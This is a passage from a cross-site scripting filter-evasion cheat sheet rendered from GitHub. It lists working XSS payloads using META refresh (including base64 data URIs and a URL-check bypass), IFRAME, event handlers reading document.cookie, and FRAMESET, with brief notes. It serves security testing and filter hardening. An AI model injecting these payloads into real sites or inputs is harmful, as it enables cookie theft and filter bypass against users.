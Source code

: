 <h2><a id="user-content-meta" class="anchor" aria-hidden="true" href="#meta"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>META</h2>
<p>The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:</p>
<pre><code>&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"&gt;
</code></pre>
<h3><a id="user-content-meta-using-data" class="anchor" aria-hidden="true" href="#meta-using-data"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>META using data</h3>
<p>Directive URL scheme. This is nice because it also doesn't have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS <a href="http://ha.ckers.org/xsscalc.html" rel="nofollow">calculator</a> below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:</p>
<pre><code>&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"&gt;
</code></pre>
<h3><a id="user-content-meta-with-additional-url-parameter" class="anchor" aria-hidden="true" href="#meta-with-additional-url-parameter"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>META with additional URL parameter</h3>
<p>If the target website attempts to see if the URL contains <code>&lt;http://&gt;;</code> at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):</p>
<pre><code>&lt;META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-iframe" class="anchor" aria-hidden="true" href="#iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IFRAME</h2>
<p>If iframes are allowed there are a lot of other XSS problems as well:</p>
<pre><code>&lt;IFRAME SRC="javascript:alert('XSS');"&gt;&lt;/IFRAME&gt;
</code></pre>
<h2><a id="user-content-iframe-event-based" class="anchor" aria-hidden="true" href="#iframe-event-based"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IFRAME Event based</h2>
<p>IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)</p>
<pre><code>&lt;IFRAME SRC=# onmouseover="alert(document.cookie)"&gt;&lt;/IFRAME&gt;
</code></pre>
<h2><a id="user-content-frame" class="anchor" aria-hidden="true" href="#frame"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>FRAME</h2>
<p>Frames have the same sorts of XSS problems as iframes</p>
<pre><code>&lt;FRAMESET&gt;&lt;FRAME SRC="javascript:alert('XSS');"&gt;&lt;/FRAMESET&gt;